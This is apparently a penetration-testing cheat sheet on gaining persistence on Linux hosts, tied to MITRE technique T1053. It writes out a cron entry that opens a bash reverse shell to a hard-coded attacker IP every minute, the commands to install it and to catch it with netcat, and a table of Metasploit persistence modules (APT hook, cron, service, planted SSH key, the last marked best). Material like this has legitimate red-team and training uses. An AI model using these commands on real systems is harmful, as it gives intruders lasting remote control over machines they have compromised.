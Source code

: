 
 MITRE Technique: https://attack.mitre.org/techniques/T1053/

# Persistence via Cronjobs:

Create a cron that runs every minute all time and run a reverse connection to our attacking machine and save it as `cron`
*** Specify the Attacking IP because it's a reverse shell......

	echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.203.156.3/7777 0>&1'" > cron

Then to add it as a cronjob:

	crontab -i cron

Then listen to the specified port:

	nc -nvlp <PORT>
	
And we should get a connection...

# **Persistence <mark style="background: #FF5582A6;">MSF</mark> Modules:**

`search platform:linux persistence`


| Module                                                | Description                                                                                                                                                                                                                                                                                                                                   |
| ----------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `exploit/linux/local/apt_package_manager_persistence` | This module will run a payload when the package manager is used. No<br>  handler is ran automatically so you must configure an appropriate<br>  exploit/multi/handler to connect. This module creates a pre-invoke hook<br>  for APT in apt.conf.d. The hook name syntax is numeric followed by text.                                         |
| `exploit/linux/local/cron_persistence`                | This module will create a cron or crontab entry to execute a payload.<br>  The module includes the ability to automatically clean up those entries to prevent multiple executions.<br>  syslog will get a copy of the cron entry.<br>                                                                                                         |
| `exploit/linux/local/service_persistence`             | This module will create a service on the box, and mark it for auto-restart.<br>  We need enough access to write service files and potentially restart services                                                                                                                                                                                |
| `post/linux/manage/sshkey_persistence`  # BEST METHOD | This module will add an SSH key to a specified user (or all), to allow<br>  remote login via SSH at any time.<br><br>`set CREATESSHFOLDER true`<br>`set SESSION <session_id>`<br>Then create a file and add the sshkey to it with limited permissions: <br>`chmod 400 ssh_key` <br><br>Then Login with SSH:<br>`ssh -i ssh_key root@<ip>`<br> |


